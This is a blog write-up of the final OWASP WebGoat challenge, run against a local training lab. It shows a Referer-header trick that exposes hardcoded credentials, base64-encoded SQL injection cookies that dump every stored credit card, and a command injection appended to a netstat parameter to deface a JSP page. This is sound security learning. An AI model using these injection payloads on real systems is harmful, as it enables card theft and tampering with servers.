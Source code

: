 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Final Challenge"
subtitle: "Final Challenge"
date:   2017-02-03 20:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

Instructions:

- Your mission is to break the authentication scheme, steal all the credit cards from the database, and then deface the website. You will have to use many of the techniques you have learned in the other lessons. The main webpage to deface for this site is 'webgoat_challenge_user.jsp'

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/challenge-login.jpg">

Alright, the final challenge! Let's see what the login request generates:

```
Cookie: user="eW91YXJldGhld2Vha2VzdGxpbms=";
```

```
Username=admin&Password=pass&SUBMIT=Login&user=youaretheweakestlink
```

Alright, we have one interesting cookie and an interesting field that was appended to our request. I think that cookie looks like base64. Let's decode it and see what we get:

```
$ echo eW91YXJldGhld2Vha2VzdGxpbms= | base64 -d
youaretheweakestlink
```

Aha! Alright so the cookie is the username base64 encoded. Well, maybe there is an authenticated user already that we can steal the session of!

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/failed-brute-force.jpg">

After around 6 letters deep, I decided to stop as I thought this might not be be best path forward. Let's see. Well in each challenge before we could access the source of that page by clicking a button that has now magically disappeared (Presentation Level Access Controls anyone?). Let's click on one of those old links and look at what is generated:

```
GET /WebGoat/source?source=true HTTP/1.1
Referer: page_that_we_were_on
```

Interesting. What if we change the ```Referer``` field to the challenge URL?

```
GET /WebGoat/source?source=true HTTP/1.1
Referer: http://192.168.56.101/WebGoat/attack?Screen=9&menu=3000
```
Got it! And in the source we find:

```
121      private String pass = "goodbye";
122
123      private String user = "youaretheweakestlink";
```

Sloppy devs. Probably shouldn't have kept that in the source!

## Get the Credit Cards
 
<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/credit-card-page.jpg">

Okay now we have to steal the credit cards. I realized that the credit cards for this purchase were already in place (presumably for the logged in user) on the page when we got there. So on request, it would appear that the server must be looking at our cookie, determining who we are, and pulling the credit card info for us. That sounds like a SQLi vuln. Let's try some input:

```
Cookie: user=' or '1' = '1;
```

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/credit-card-injection.jpg">

Hm, looks like a failed injection (aka error). So the server probably uses plaintext reference to the user instead of base64'd reference. Let's try inserting some test SQLi in the base64'd cookie by appending a true evaluation just for our username on the end. If it comes back with our credit cards, we have figured out the logic for injecting this parameter:

```
>>> base64.b64encode("youaretheweakestlink' and '1'='1")
'eW91YXJldGhld2Vha2VzdGxpbmsnIGFuZCAnMSc9JzE='
```

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/credit-card-good-injection.jpg">

Okay! So now let's try to grab everyone's cards:

```
>>> base64.b64encode("youaretheweakestlink' or '1'='1")
'eW91YXJldGhld2Vha2VzdGxpbmsnIG9yICcxJz0nMQ=='
```

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/credit-cards-stolen.jpg">

Awesome! We've got 'em all.

## Deface the Site

Okay, now we have to deface the site. We are immediately shown some process output, presumably for processes running on the server. 

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/deface-the-site.jpg">

At the bottom of the page there is a selector where we can select a protocol (tcp, udp, ip, etc). Let's see what the request is that is generated from that selector:

```
SUBMIT=View+Network&File=tcp
```

Hmm..interesting. So the command itself looks like it could be ```netstat```. That would mean that the ```tcp``` we send might be a flag for a ```netstat``` command on the server. What happens if we append another command on the end of the ```tcp``` specification:

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/ls-deface.jpg">

Awesome! Looks like we can inject subsequent commands after the netstat command that is thrown back to the page. Let's try to deface the site:

```
SUBMIT=View+Network&File=tcp; echo '<html>pwnd</hmtl>' >> /var/lib/tomcat6/webapps/WebGoat/webgoat_challenge_user.jsp
```

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/site-defaced.jpg">

<img src="{{ site.baseurl }}/images/webgoat/2017-02-02-webgoat_part_23/webgoat-completed.jpg">

And we've done it! We've defeated the mighty WebGoat. I've learned a lot about common web vulnerabilites and some of their manifestations, but I still have a lot to learn. I'm going to continue to learn and update the blog as I continue down the netsec rabbit hole.